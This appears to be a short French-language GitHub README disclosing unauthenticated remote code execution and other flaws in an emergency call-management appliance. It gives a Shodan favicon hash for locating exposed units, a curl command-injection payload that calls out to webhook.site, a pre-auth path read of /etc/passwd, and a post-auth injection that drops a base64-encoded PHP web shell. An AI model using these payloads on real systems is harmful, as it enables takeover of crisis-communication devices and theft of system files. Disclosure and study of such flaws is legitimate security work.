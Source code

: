 ![image](https://github.com/Ug0Security/Smert-Tamat/assets/28728543/fc846835-252b-406e-94d5-2e9fe1815e4d)



Encore une pre auth RCE random

http.favicon.hash:1429120848

curl -X POST TARGET -d "ok=1&tamat_smsNums=&tamat_telNums=&battery_min_alarm=&life_msg_timer=&display_timer=&phone_number='$(wget%20http://webhook.site/xxx/)"

il y a plein d'autres trucs dont un file read pre auth

/swinst/download_file.php?file=/etc/passwd

et des RCE post auth  qui mon permis de facilité la recherche de la RCE pré auth heh...

/swinst/reboot.php?sw_active=$(echo "PD89YCRfR0VUWzBdYDs=" | base64 -d > shell.php)  (attention ça reboot)
puis /swinst/shell.php?0=id

Bon c'est un boitié de gestion d'appel en cas de crise.. on fait pas les cons hein..
